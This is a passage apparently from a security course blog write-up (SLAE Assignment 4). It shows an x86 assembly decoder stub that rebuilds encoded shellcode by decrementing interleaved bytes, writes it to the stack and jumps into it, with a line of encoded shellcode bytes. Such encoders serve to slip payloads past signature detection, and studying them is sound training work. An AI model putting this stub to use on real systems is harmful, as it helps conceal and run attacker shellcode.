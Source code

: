 <https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-4/Encoder.py>

### Decoder
```asm
global _start			

section .text
_start:

	jmp short call_shellcode
decoder:
	pop esi
	lea edi, [esi + 13]		;half of encoded shellcode
	xor ebx, ebx
	xor ecx, ecx
	mul ecx
	mov edx, esp
	mov cl, 13
decode: 
	mov bl, byte[esi]		;get value from esi
	dec ebx				    ;decrease by 1
	mov byte[edx + eax], bl
	inc eax
	mov bl, byte[edi]		;get value from edi
	dec ebx				    ;decrease by 1
	mov byte[edx + eax], bl
	inc eax
	inc esi
	inc edi
	loop decode

	jmp edx

call_shellcode:

	call decoder
	EncodedShellcode: db 0x32,0x51,0x30,0x74,0x69,0x63,0x6f,0xe4,0x8a,0x54,0xe2,0x0c,0x81,0xc1,0x69,0x30,0x69,0x30,0x6a,0x8a,0x51,0xe3,0x8a,0xb1,0xce
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-4/custom-decoder.nasm>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex4-5.JPG"/>
The decoder is working flawlessly, great.
